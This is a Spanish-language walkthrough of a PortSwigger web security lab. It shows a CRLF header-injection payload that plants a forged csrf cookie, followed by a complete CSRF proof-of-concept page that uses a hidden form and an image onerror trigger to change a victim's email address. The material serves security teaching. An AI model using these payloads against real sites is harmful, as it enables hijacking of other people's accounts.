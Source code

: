 `TAREA:`
Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

como siempre iniciamos sesión en el lab con las credenciales que nos proporcionan e interceptamos la solicitud para luego enviarla al repeater
![[Pasted image 20250710162852.png]]

después de interceptar la solicitud la enviamos al repeater y podemos tirar (Drop) la intercepción para no realizar ningún cambio 

podemos ver que tenemos tanto la `cookie` de inicio de sesión como el `csrf`
![[Pasted image 20250710163229.png]]

ahora realizamos una búsqueda y analizamos la solicitud para identificar sus parámetros
![[Pasted image 20250710163311.png]]

una ves tenemos la solicitud la enviamos al repeater para analizar la respuesta del lado del servidor. en este caso tenemos una respuesta `200 OK` y nos devuelve el parámetro `Set-cookie: LastSearchTerm` esta cookie contiene el parámetro de nuestra ultima búsqueda es decir `test` así que vamos a validar esto y si no cumple con la validación correcta podemos explotar esta vulnerabilidad y generar una cabecera dinámica que contenga el parámetro `Set-cookie`
![[Pasted image 20250710163437.png]]

realizamos la validación correspondiente y efectivamente obtenemos una respuesta `200 OK` donde el parámetro `Set-Cookie` contiene el valor `csrf:test`

la inyección del encabezado nos quedaría así:
```python
GET /?search=test%0d%0aSet-Cookie:%20csrf=test HTTP/2
```

por ejemplo también podrías crea una URL que use esta vulnerabilidad para inyectar una URL falsa. `csrf`cookie en el navegador de la víctima.

```python
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

![[Pasted image 20250710164155.png]]

ahora lo que tenemos que hacer es ir a la solicitud que contiene nuestra función de actualización de correo electrónico y vamos a generar un CSRF PoC 
![[Pasted image 20250710164512.png]]

primero vamos e eliminar la función de las etiquetas `<script>` para poder hacer uso de nuestra inyección 
![[Pasted image 20250710164700.png]]

ahora solo nos queda inyectar una fuente de imagen que haga un llamado a la url que será la web + el encabezado que hemos construido. nos quedaría algo así: 

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="t7TLNlTl0JbLuxmo3xN0Gn3XxKZpwwfz" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

donde
```python
<img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
seria nuestra inyección completa y maliciosa

`NOTA: Recuerda camviar tu valor de csrf token. por el valor de LastSearchTerm en mi caso es -test-  ` 
![[Pasted image 20250710165217.png]]